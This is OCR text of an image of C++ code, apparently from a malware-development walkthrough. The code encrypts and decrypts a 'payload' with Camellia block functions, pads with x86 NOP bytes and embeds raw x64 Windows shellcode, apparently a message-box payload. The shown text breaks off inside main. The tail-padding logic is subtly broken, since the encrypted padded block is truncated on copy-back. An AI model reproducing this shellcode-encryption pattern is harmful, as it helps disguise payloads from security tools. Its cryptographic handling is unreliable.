 ```cpp
// encrypt payload with padding
void camellia_encrypt_payload(unsigned char *payload, int payload_len, uint64_t key1, uint64_t key2) {
  int i;
  for (i = 0; i < payload_len / BLOCK_SIZE; i++) {
    camellia_encrypt_block(payload + i * BLOCK_SIZE, key1, key2);
  }
  // check if there are remaining bytes
  int remaining = payload_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    camellia_encrypt_block(pad, key1, key2);
    memcpy(payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

// decrypt payload
void camellia_decrypt_payload(unsigned char *payload, int payload_len, uint64_t key1, uint64_t key2) {
  int i;
  for (i = 0; i < payload_len / BLOCK_SIZE; i++) {
    camellia_decrypt_block(payload + i * BLOCK_SIZE, key1, key2);
  }
  // check if there are remaining bytes
  int remaining = payload_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = {0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90};
    memcpy(pad, payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, remaining);
    camellia_decrypt_block(pad, key1, key2);
    memcpy(payload + (payload_len / BLOCK_SIZE) * BLOCK_SIZE, pad, remaining);
  }
}

// main function
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

```